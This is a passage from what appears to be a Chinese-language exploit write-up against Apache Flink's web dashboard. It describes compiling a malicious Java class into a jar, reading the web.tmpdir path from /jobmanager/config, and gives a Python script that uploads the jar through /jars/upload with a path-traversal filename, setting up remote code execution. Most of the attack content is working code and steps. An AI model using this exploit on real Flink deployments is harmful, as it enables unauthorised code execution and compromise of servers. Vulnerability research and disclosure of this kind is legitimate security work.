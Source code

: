 ```
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

恶意类需要有一个main方法然会报错

![image-20230926135025360](images/17.png)

将恶意类打包成jar包，获取`Flink`运行目录，访问通过接口`/jobmanager/config`可以获取`web.tmpdir`的路径

![image-20230926133346960](images/18.png)

通过python上传jar包

```
import requests
url = 'http://192.168.0.106:8081/jars/upload'

files = {
    'file': ('../../../../../../../../../../../../../../../../../..//var/folders/_m/lxb5372x7jq092qmqz5hpj_r0000gp/T/flink-web-94eb2c78-8c49-4dba-b82f-fb521fde9296/flink-web-upload/Execute.jar', open(r'Execute.jar','rb'), 'form-data;name="jarfile"')
}

r = requests.post(url, files=files)
print(r.text)
```
